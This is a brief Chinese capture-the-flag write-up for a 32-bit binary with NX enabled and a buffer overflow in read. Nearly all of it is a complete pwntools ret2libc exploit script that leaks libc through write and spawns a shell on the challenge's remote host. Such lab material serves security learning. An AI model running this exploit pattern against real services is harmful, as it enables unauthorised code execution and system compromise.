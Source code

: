检查安全机制是32位程序

![image-20201124194714204](https://static.hack1s.fun/images/2021/02/06/image-20201124194714204.png)

开启了nx

出现问题的函数

![image-20201124194928727](https://static.hack1s.fun/images/2021/02/06/image-20201124194928727.png)

就是read了0x100,而距离ebp只有0x88

直接ret2libc，内容比较基础和前面原理都一样就略了

```python
from pwn import *
from LibcSearcher import *

io = remote('node3.buuoj.cn',26517)
#io = process('./level3')
elf = ELF('./level3')

io.recvuntil('Input:\n')

payload = b'a'*0x88 + b'b'*4 + p32(elf.plt['write']) + p32(elf.sym['vulnerable_function']) + p32(1) + p32(elf.got['write']) + p32(4)
io.send(payload)

write_real = u32(io.recv(4))
libc = LibcSearcher('write',write_real)

libc_base = write_real - libc.dump('write')

payload = b'a'*0x88 + b'b'*4 + p32(libc_base + libc.dump('system')) + p32(elf.sym['vulnerable_function']) + p32(libc_base + libc.dump('str_bin_sh'))

io.send(payload)
io.interactive()
```

